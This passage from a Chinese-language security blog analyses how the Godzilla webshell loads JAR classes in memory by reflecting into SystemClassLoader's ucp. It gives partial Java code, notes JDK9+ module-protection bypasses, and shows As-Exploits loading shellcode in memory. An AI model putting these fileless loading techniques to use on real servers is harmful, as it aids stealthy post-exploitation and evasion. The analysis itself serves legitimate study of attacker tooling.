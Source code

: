 ```
    public void connect() throws IOException {
    }

    public int getContentLength() {
        return this.data.length;
    }

    public String getContentType() {
        return this.contentType;
    }

    public InputStream getInputStream() throws IOException {
        return new ByteArrayInputStream(this.data); // 直接返回内存中的内容
    }
}

```

### 添加到SystemClassLoader的ucp中
调用时首先将两个类打入内存上下文，然后调用MemoryBufferURLConnection的createURL创建构造好的URL对象，最后通过反射塞到SystemClassLoader的ucp中
```
public String load(byte[] jarClassData) {
    Class URLConnectionClass = null;
    try {
        String MemoryBufferURLConnection = "";
        String MemoryBufferURLStreamHandler = "";
        defClz(Base64DecodeToByte(MemoryBufferURLStreamHandler));
        URLConnectionClass = defClz(Base64DecodeToByte(MemoryBufferURLConnection));
    } catch (Exception e) {

    }
    if (jarClassData != null) {
        try {
            return addJar((URL) URLConnectionClass.getMethod("createURL", byte[].class, String.class).invoke(null, jarClassData, "application/jar"));
        } catch (Exception e) {
            return e.getMessage();
        }
    } else {
        return "jarByteArray is null";
    }
}
```
### files对象
这里哥斯拉有一个小细节，MemoryBufferURLStreamHandler中有一个没有使用过的files对象，研究了一下是什么作用
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1695894141876-21cce173-43d9-4959-abce-6bd3bed325f5.png#averageHue=%23fbfaf9&clientId=ud0545662-3e42-4&from=paste&height=426&id=ylMuN&originHeight=852&originWidth=1222&originalType=binary&ratio=2&rotation=0&showTitle=false&size=505330&status=done&style=none&taskId=u0d81d1c7-5d47-4a9c-9757-bd8b111b1a5&title=&width=611)
其实是因为MemoryBufferURLConnection每次是new出来的，无法保存之前加载过的Jar内容，这里的List是一个浅拷贝，链接到MemoryBufferURLStreamHandler实例对象中，这样就可以在每次new之后依旧保留曾经加载过的jar，不需要重复加载。
## 适配高版本JDK
JDK9实现了模块化，SystemClassLoader不再是URLClassLoader的子类，所以原有的Poc就不能直接用了。520师傅后来进行了一系列改进，支持了高版本JDK。其实基本原理差不多，主要是用[https://github.com/BeichenDream/Kcon2021Code](https://github.com/BeichenDream/Kcon2021Code)中的trick绕过JDK了模块保护和反射过滤
## As-Exploits内存加载ShellCode
通过Jar加载器-内存加载，上传ext目录下的loader.jar
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1696668416161-4df3612f-2a06-4978-96a6-ed8ac4668247.png#averageHue=%23f7f7f6&clientId=ud0545662-3e42-4&from=paste&height=654&id=ua29c213d&originHeight=817&originWidth=1375&originalType=binary&ratio=2&rotation=0&showTitle=false&size=37802&status=done&style=none&taskId=u90a475c8-88a9-4ee9-8df6-3c6002469a0&title=&width=1100)
可以通过Js引擎执行功能先试一下看类在不在，发现确实可以查找到
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1696668481406-8ba1cf83-b93e-4233-9e23-c77cbef02367.png#averageHue=%23f7f7f6&clientId=ud0545662-3e42-4&from=paste&height=647&id=uc7a585b1&originHeight=809&originWidth=1373&originalType=binary&ratio=2&rotation=0&showTitle=false&size=37057&status=done&style=none&taskId=uacd8a506-9e65-4e2f-afb2-999a6583281&title=&width=1098.4)
ShellCode加载器模块-加载方式JNA，exploit，弹出计算器，也就实现了内存加载ShellCode的功能